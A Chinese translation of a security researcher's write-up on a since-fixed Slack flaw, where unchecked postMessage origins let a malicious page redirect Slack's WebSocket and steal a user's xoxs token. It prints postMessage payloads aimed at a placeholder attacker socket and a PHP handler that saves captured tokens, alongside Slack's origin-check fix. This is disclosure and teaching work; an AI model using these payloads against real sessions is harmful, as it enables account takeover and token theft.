

# 【技术分享】使用postMessage()和WebSocket重连来窃取你Slack的Token


                                阅读量   
                                **139321**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：detectify.com
                                <br>原文地址：[https://labs.detectify.com/2017/02/28/hacking-slack-using-postmessage-and-websocket-reconnect-to-steal-your-precious-token/](https://labs.detectify.com/2017/02/28/hacking-slack-using-postmessage-and-websocket-reconnect-to-steal-your-precious-token/)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/85634/t01ddb5b34b412f701a.jpg)

<br>

****

翻译：[WisFree](http://bobao.360.cn/member/contribute?uid=2606963099)

预估稿费：200RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**长话短说**

我可以创建一个恶意页面并用它将你的Slack WebSocket重连至我自己的WebSocket，然后我就可以窃取你Slack的私人Token了。在我将该问题上报给Slack的五个小时之后他们便修复了相应漏洞，并给我提供了三千美金的漏洞奖励。

我将在这篇文章中给大家介绍这个我从Slack挖到的漏洞，我不仅会介绍这个漏洞的利用方法，而且也会告诉大家我是如何发现这个漏洞的。

<br>

**背景知识**

****

使用window.addEventListener('message', func)和window.postMessage()来传递信息绝对是一种实现跨域通信的绝佳利器。但是，这种方法也有其致命缺陷，即无法检查消息中的源（origin），这个问题我们此前也已经讨论过多次了【[参考资料1](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)】【[参考资料2](https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/)】。

上周我无聊的时候翻看了一下Slack的源码，我发现Chrome真的非常方便，因为我们可以直接查看到那些对象设置了监听器。你可以在元素标签中看到如下图所示的事件监听器：

[](https://p1.ssl.qhimg.com/t012ad471887598bbdc.png)

我发现Slack会将信息传递给window对象的一个监听器，相应的监听器函数如下所示：

```
var _receivePostedMessageFromChildWindow = function(evt) {
    if (!evt || !evt.data || !evt.data.message_type) {
        TS.utility.calls_log.logEvent({
            event: _utility_calls_config.log_events.invalid_msg_from_child_window,
            value: evt
        });
        return
    }
    if (evt.data.origin_window_type === TS.utility.calls.window_types.call_window) {
        switch (evt.data.message_type) {
        case TS.utility.calls.messages_from_call_window_types.update_mini_panel:
            ...
            break;
        case TS.utility.calls.messages_from_call_window_types.set_call_window_loaded:
            ...
...
```

正如你所看到的那样，他们并没有验证消息中的evt.origin和evt.source。这是两个无法伪造的只读属性，但由于他们没有对这两个属性进行验证，所以这也就意味着我可以用它们来做一些有意思的事情，比如说，我可以通过另一个由我控制的window对象并使用postMessage()来访问这个window对象的功能以及函数。

<br>

**设计一个PoC**

现在，如果只跟Slack的技术人员说他们忘记进行源验证的话，那就没啥意思了，而且也不能体现这个问题的严重性。因此，我必须仔细检查一下他们的源代码，然后设计出一种比较好的漏洞利用场景。

第一个需要克服的难题是：如果我想用我的payload来攻击某个用户的话，我怎么知道我应该用哪一个team-URL？

就在此时，我发现[https://my.slack.com](https://my.slack.com) 会将你重定向到你当前的Slack实例。这就非常棒了！

在查看了所有我能发送的事件（event）之后，我发现Slack在保护用户通话这一点上做得非常好。因为即使我可以控制Slack向浏览器所发送的通知信息，即使我可以切换当前的聊天会话，但我仍无法控制这些事件的调用。

一种比较白痴的PoC将会是这种情况：如果你打开了我的恶意页面，然后给其他用户拨打语音电话的话，那么我就可以切断你跟这位用户的语音通话。

[](https://p1.ssl.qhimg.com/t0111296c04d11c68b9.jpg)

所以我还得再努力一把。在进行了深入分析之后，我发现代码中还有很多针对语音通话（calls）的引用，具体如下所示：

```
if (event.data.message_type != TS.utility.calls.messages_to_call_window_types.ms_msg &amp;&amp; !event.data.reply_to) {
    TS.utility.calls_log.logEvent({
        event: _calls_config.log_events.message_from_parent_window,
        value: event.data
    })
}
```

这就非常明显了，该函数中的这一大堆代码就是用来实现Slack语音通话功能的：

[](https://p2.ssl.qhimg.com/t01fed6f58f69692290.png)

当用户使用语音通话功能时，虽然通话窗口驻留在另一个新窗口中，但实际的通信还是由Slack的主窗口完成的，这也是他们使用postMessage()的主要原因。

在查看了[https://slack.com/call](https://slack.com/call)  的源码之后，我发现这里也存在相同的问题，即没有对消息源进行验证，但是这里的问题比之前的还要有意思。

但是我又遇到了一个问题，[https://slack.com/call](https://slack.com/call)  这个节点还需要一个类似/call/UXXXX这样的参数来作为组ID或用户ID才能正常访问，而这与我之前遇到的问题非常类似，即“我怎样才能攻击任意用户（即使他不在我的工作团队（team）之中）？”此时我发现只需要在地址中加一个参数“me”就可以了，所以我打算直接使用下面这个URL地址：

```
https://slack.com/call/me
```

这个地址将会把你定向到你当前实例的/call节点，但奇怪的是当你重新加载页面之后页面就会崩溃。

[](https://p1.ssl.qhimg.com/t01e1de784cd57c1cea.png)

现在我已经知道了以下信息：

1.一个可以重定向到用户当前Slack实例的地址。

2.一个使用了postMessage()的也main，我们应该可以利用这个页面中的一系列事件（event）来做一些有意思的事情。

3.一个可以应用到任意Slack用户的URL地址

4.一个无效页面，但是这个页面同样使用了一个postMessage监听器

[](https://p5.ssl.qhimg.com/t01f8a5475ea1e3a2cf.png)

上面这些信息就是我所需要的东西了。

<br>

**事件（event）分析**

现在，我们来看看有哪些可以发送的事件，下面就是其中一个：

[](https://p5.ssl.qhimg.com/t019f4078b97b863773.png)

我们可以用Chrome来设置断点，然后分析这个功能。在这个函数中，又有一大堆处理信息的代码：

[](https://p0.ssl.qhimg.com/t015ac42b7e972e8243.png)

由于其不会进行源验证，这也就意味着我可以控制主程序所解析的信息。现在，我不仅可以控制call窗口发送的信息，而且还可以控制这个窗口中的事件。函数中的下列参数暴露了Slack的跨域控制问题：

```
"origin_window_type": "incoming_call", "message_type": "ms_msg"
```

就此看来，找出一个有意思的PoC只是时间问题了，把这个PoC整出来之后，我就要把它报给Slack团队了。

<br>

**找出有意思的事件（event）**

没错，我尝试了网站提供的大量事件，下面是我已经测试过的事件列表：

```
accounts_changed(), apps_changed(imsg), bot_added(imsg), bot_changed(imsg), bot_removed(imsg), channel_archive(imsg), channel_converted_to_shared(imsg), channel_created(imsg), channel_deleted(imsg), channel_history_changed(imsg), channel_history_changed_worker(imsg), channel_joined(imsg), channel_left(imsg), channel_marked(imsg), channel_rename(imsg), channel_unarchive(imsg), commands_changed(imsg), dnd_override(imsg), dnd_updated(imsg), dnd_updated_user(imsg), email_domain_changed(imsg), emoji_changed(imsg), enterprise_rename(imsg), error(imsg), file_change(imsg), file_comment_added(imsg), file_comment_deleted(imsg), file_comment_edited(imsg), file_created(imsg), file_deleted(imsg), file_private(imsg), file_public(imsg), file_shared(imsg), file_unshared(imsg), goodbye(imsg), group_archive(imsg), group_close(imsg), group_converted_to_shared(imsg), group_deleted(imsg), group_history_changed(imsg), group_history_changed_worker(imsg), group_joined(imsg), group_left(imsg), group_marked(imsg), group_open(imsg), group_rename(imsg), group_unarchive(imsg), hello(imsg), im_close(imsg), im_created(imsg), im_history_changed(imsg), im_history_changed_worker(imsg), im_marked(imsg), im_open(imsg), issue_change(imsg), manual_presence_change(imsg), member_joined_channel(imsg), member_joined_group(imsg), member_left_channel(imsg), member_left_group(imsg), message(imsg), message_changed(imsg), message_changed_worker(imsg), message_deleted(imsg), message_deleted_worker(imsg), message_replied(imsg), mpim_close(imsg), mpim_history_changed(imsg), mpim_history_changed_worker(imsg), mpim_joined(imsg), mpim_marked(imsg), mpim_open(imsg), msgReceived(imsg), msgReceivedFromParentWindow(imsg), onStartxu(), pin_added(imsg), pin_removed(imsg), pref_change(imsg), presence_change(imsg), reaction_added(imsg), reaction_removed(imsg), reconnect_url(imsg), sh_room_join(imsg), sh_room_leave(imsg), sh_room_update(imsg), slack_broadcast(imsg), star_added(imsg), star_removed(imsg), status_change(imsg), subteam_created(imsg), subteam_deleted(imsg), subteam_self_added(imsg), subteam_self_removed(imsg), subteam_updated(imsg), subtype__channel_history_changed(imsg), subtype__channel_join(imsg), subtype__channel_leave(imsg), subtype__channel_purpose(imsg), subtype__channel_topic(imsg), subtype__file_share(imsg), subtype__group_history_changed(imsg), subtype__group_join(imsg), subtype__group_leave(imsg), subtype__group_purpose(imsg), subtype__group_topic(imsg), subtype__im_history_changed(imsg), subtype__message_changed(imsg), subtype__message_deleted(imsg), subtype__message_replied(imsg), subtype__mpim_history_changed(imsg), subtype__mpim_join(imsg), subtype__sh_room_created(imsg), subtype__sh_room_shared(imsg), team_domain_change(imsg), team_icon_change(imsg), team_join(imsg), team_plan_change(imsg), team_pref_change(imsg), team_profile_change(imsg), team_profile_delete(imsg), team_profile_reorder(imsg), team_rename(imsg), teams_joined_shared_channel(imsg), teams_left_shared_channel(imsg), thread_marked(imsg), thread_subscribed(imsg), thread_unsubscribed(imsg), update_thread_state(imsg), user_added_to_team(imsg), user_can_manage_shared_channels(imsg), user_change(imsg), user_read_only_channels(imsg), user_removed_from_team(imsg), user_typing(imsg)
```

在所有事件中，reconnect_url这个事件吸引了我的注意，不仅因为它非常常见，而且它还存在一个明显的问题：

```
if (!TS.ms.fast_reconnects_enabled)
    return;
var url = imsg.url;
TS.ms.setReconnectUrl(url)
```

上面这段代码会对Slack所使用的WebSocket-URL进行转换。WebSocket的初始化是通过一个GET事件完成的，这个过程需要用到大量参数，其中有一个参数名叫“token”，而且还是一个xoxs-token，只要我拿到这个token，我就可以访问你的Slack账号了。

[](https://p2.ssl.qhimg.com/t01a249d481999dec59.png)

所以，我自己建立了一个本地WebSocket，我这里选择的是[Ratchet](http://socketo.me/)，因为它设置起来比较方便。我其实并不需要一个完整的socket，我只需要它能够正常响应init请求即可。所以我修改了onOpen请求，具体如下所示：

```
public function onOpen(ConnectionInterface $conn) {
    // Store the new connection to send messages to later
    $this-&gt;clients-&gt;attach($conn);
    $token = $conn-&gt;WebSocket-&gt;request-&gt;getQuery()['token'];
    echo sprintf("WE GOT TOKEN: %sn", $token);
    file_put_contents('token.txt', $token);
    echo "New connection! ({$conn-&gt;resourceId})n";
}
```

这段代码会将token导出到本地，然后我准备使用命令控制台来向窗口发送信息，并尝试能否连接我的socket：

```
window.postMessage({"origin_window_type":"incoming_call","message_type":"ms_msg","msg":{"reply_to":false,"type":"reconnect_url","url":"ws://your-socket-domain:9001/websocket/AAA"}}, "*")
```

结果并不尽如人意。因为原始的WebSocket已经建立了连接，当它调用其他事件时，并不会再初始化一次重连（reconnect）。但是当我在查看网站其他的事件处理器时，我发现了一个名叫“goodbye”的方法：

```
goodbye: function(imsg) {
    if (!TS.lazyLoadMembersAndBots())
        return;
    TS.info("Got a goodbye message, so disconnecting from the MS");
    TS.ms.disconnect()
},
```

原来，Slack将一个名叫“fast_reconnects_enabled”的参数设置为了“ture”，而正是这个参数才使得我能够执行reconnect_url事件，然后再通过goodbye事件完成重连。

<br>

**信息整合**

现在，我们来整理一下思路：

1.我们开启了一个本地的web-socket，它只有一个功能，就是监听、拦截，并将获取到的token参数保存到我们的服务器中。

2.当目标用户点击了我们恶意页面中的链接之后，我们会开启一个新的窗口，然后将用户定向到https://slack.com/call/me，最后将针对该窗口的引用保存在变量b之中。

3.我们还运行了一个小脚本来尝试通过我们自己的WebSocket来获取token。

4.接下来，通过下面这个postMessage来重置socket-URL：

```
b.postMessage({"origin_window_type":"incoming_call","message_type":"ms_msg","msg":{"reply_to":false,"type":"reconnect_url","url":"ws://your-socket-domain:9001/websocket/AAA"}}, "*")
```

5.每两秒钟我们还要调用一次goodbye方法来确保socket连接能够被中断：

```
b.postMessage({"origin_window_type":"incoming_call","message_type":"ms_msg","msg":{"reply_to":false,"type":"goodbye"}}, "*")
```

6.当slack.com的窗口连接到了我们的socket之后，我们就可以导出目标用户的token，然后再使用这个xoxs-token来从Slack API的auth.test节点收集数据。

至此，我们已经成功窃取到了目标用户的token。

[](https://p1.ssl.qhimg.com/t01735925b3619fbf0e.png)


**演示视频**

我还专门制作了一个短视频来演示整个攻击过程：****


**解决方案**

Slack所采用的解决方案如下所示（验证信息源）：

```
if (!TS.utility.calls.verifyOriginUrl(evt.origin)) {
  return
}
...
verifyOriginUrl: function(originHref) {
        var a = document.createElement("a");
        a.href = originHref;
        return a.hostname == window.location.hostname
},
```

<br>

**总结**

我在上周五的晚上将该问题上报给了Slack，仅在33分钟之后他们便给我回复了，并且在5小时之后修复了相应的问题，效率简直不要太高。最后，感谢Slack给我的3000美金。
